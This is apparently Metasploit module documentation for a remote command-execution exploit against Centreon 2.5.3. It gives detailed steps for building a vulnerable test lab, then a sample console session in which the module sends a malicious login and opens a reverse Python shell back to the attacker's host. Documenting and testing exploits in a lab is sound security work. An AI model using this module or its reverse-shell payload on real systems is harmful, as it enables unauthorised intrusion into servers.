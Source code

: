 ## Vulnerable Application

1. [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
2. Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install. My user was `centreon`
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
```
sudo apt purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`
sudo add-apt-repository ppa:ondrej/php
sudo apt-get install php5.6
sudo apt-get install php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml php5.6-gd php5.6-ldap php5.6-sqlite3
sudo apt-get install build-essential cmake librrd-dev libqt4-dev libqt4-sql-mysql libgnutls28-dev python-minimal
sudo apt-get install tofrodos bsd-mailx lsb-release mysql-server libmysqlclient-dev apache2 php-pear rrdtool librrds-perl libconfig-inifiles-perl libcrypt-des-perl libdigest-hmac-perl libgd-gd2-perl snmp snmpd libnet-snmp-perl libsnmp-perl
  select OK
  select No Configuration
sudo apt-get install snmp-mibs-downloader
```
  3. Enable php5.6 in Apache with `a2enmod`, disable php7.0 with `a2dismod`
```
a2enmod php5.6
a2dismod php7.0
```
  4. Restart apache with `sudo apache2ctl restart`
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
```
wget http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz
tar xvf nagios-plugins-2.1.1.tar.gz
cd nagios-plugins-2.1.1/
./configure
make
sudo make install
```
  5.1 If during make, you get an sslv3 method not found error (https://support.nagios.com/forum/viewtopic.php?f=35&t=36601&p=168235&hilit=SSLv3#p168235)
```
--- plugins/sslutils.c.orig   2016-01-14 20:02:06.419867000 +0100
+++ plugins/sslutils.c   2016-01-14 20:01:36.091492000 +0100
@@ -70,8 +70,13 @@
#endif
      break;
   case 3: /* SSLv3 protocol */
+#if defined(OPENSSL_NO_SSL3)
+      printf(("%s\n", _("CRITICAL - SSL protocol version 3 is not supported by your SSL library.")));
+      return STATE_CRITICAL;
+#else
      method = SSLv3_client_method();
      ssl_options = SSL_OP_NO_SSLv2 | SSL_OP_NO_TLSv1;
+#endif
      break;
   default: /* Unsupported */
      printf("%s\n", _("CRITICAL - Unsupported SSL protocol version."));
```
  6. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-clib
cd centreon-clib/build
cmake .
make
sudo make install
```
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-broker
cd centreon-broker/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  8. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-engine
cd centreon-engine/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html) but only the command line portion.
```
sudo mkdir /var/log/centreon-engine
cd ~
sudo pear install XML_RPC-1.4.5
(may need to install php-xml)
wget https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
tar vxf bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
cd centreon-2.5.3
sudo ./install.sh -i
  <enter>
  q
  y
  y
  y
  y
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  <enter>
  <enter>
  centreon
  <enter>
  /var/log/centreon-engine
  /home/centreon/nagios-plugins-2.1.1/plugins
  <enter>
  /etc/init.d/centengine
  /usr/local/bin/centengine
  /usr/local/etc/
  /usr/local/etc/
  /etc/init.d/centengine
  <enter>
  y
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
  <enter>
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
```
  10. Fix apache config
```
sudo cp /etc/apache2/conf.d/centreon.conf /etc/apache2/conf-available/
sudo sed -i 's/Order allow,deny/Require all granted/' /etc/apache2/conf-available/centreon.conf
sudo sed -i 's/allow from all//' /etc/apache2/conf-available/centreon.conf
sudo a2enconf centreon
sudo service apache2 reload
```
  11. Configure via website.  Browse to `<ip>/centreon`
```
next
next
select centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/bin/centenginestats
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  next
select centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/cbmod.so
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  next
Pick whatever details about your user you want, next
Fill in mysql Root password, next
next
next
finish
```
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/centreon_useralias_exec`
  4. Do: `set payload`
  5. Do: `set rhost`
  6. Do: `check`
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

Just a standard run.
```
    msf > use exploit/linux/http/centreon_useralias_exec
    msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
    rhost => 192.168.2.85
    msf exploit(centreon_useralias_exec) > set verbose true
    verbose => true
    msf exploit(centreon_useralias_exec) > check
    [+] Version Detected: 2.5.3
    [*] 192.168.2.85:80 The target appears to be vulnerable.
    msf exploit(centreon_useralias_exec) > exploit
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious login
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
    whoami
    www-data
    uname -a
    Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
